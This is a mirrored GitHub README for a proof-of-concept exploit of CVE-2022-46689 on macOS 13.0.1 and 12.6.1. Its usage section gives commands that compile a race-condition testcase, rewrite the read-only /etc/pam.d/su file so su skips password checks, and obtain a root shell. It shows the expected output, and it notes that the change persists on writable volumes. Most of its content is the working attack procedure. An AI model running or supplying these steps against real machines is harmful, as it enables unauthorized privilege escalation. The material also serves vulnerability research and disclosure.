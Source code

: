 # MacDirtyCowDemo

Get root on macOS 13.0.1 with CVE-2022-46689 (macOS equivalent of the Dirty Cow bug), using the testcase extracted from Apple's XNU source.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/zhuowei](https://github.com/zhuowei) |
| Url      | [https://github.com/zhuowei/MacDirtyCowDemo](https://github.com/zhuowei/MacDirtyCowDemo)                                               |
| Stars    | 352                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

Get root on macOS 13.0.1 with [CVE-2022-46689](https://support.apple.com/en-us/HT213532) (macOS equivalent of the Dirty Cow bug), using the testcase extracted from [Apple's XNU source](https://github.com/apple-oss-distributions/xnu/blob/xnu-8792.61.2/tests/vm/vm_unaligned_copy_switch_race.c).

https://worthdoingbadly.com/macdirtycow/

## Usage
On a macOS 13.0.1 / 12.6.1 (or below) machine, run:

```
clang -o switcharoo vm_unaligned_copy_switch_race.c
sed -e "s/rootok/permit/g" /etc/pam.d/su > overwrite_file.bin
./switcharoo /etc/pam.d/su overwrite_file.bin
su
```

You should get:

```
% ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
RO mapping was modified
% su
sh-3.2# 
```

Tested on macOS 13 beta (22A5266r) with SIP off (it should still work with SIP on).

If your system is fully patched (macOS 13.1 / 12.6.2), it should instead read:

```
$ ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
vm_read_overwrite: KERN_SUCCESS:9865 KERN_PROTECTION_FAILURE:3840 other:0
Ran 13705 times in 10 seconds with no failure
```

and running `su` should still ask for a password.

Thanks to Sealed System Volume, running this on any file on the /System volume only modifies the file temporarily: It's reverted on reboot. Running it on a file on a writeable volume will preserve the modification after a reboot.

## Credits

- Ian Beer of Project Zero for finding the issue. Looking forward to your writeup!
- Apple for the test case. (I didn't change anything: I just added the command line parameter to control what to overwrite.)
- [SSLab@Gatech](https://gts3.org/assets/papers/2020/jin:pwn2own2020-safari-slides.pdf) for the trick to disable password checking using `/etc/pam.d`.



## Get the content

```
git clone https://github.com/zhuowei/MacDirtyCowDemo
cd MacDirtyCowDemo
```

{% embed url="https://github.com/zhuowei/MacDirtyCowDemo" %}

<figure><img src="https://avatars.githubusercontent.com/u/704768?v=4" alt=""><figcaption><p>zhuowei</p></figcaption></figure>
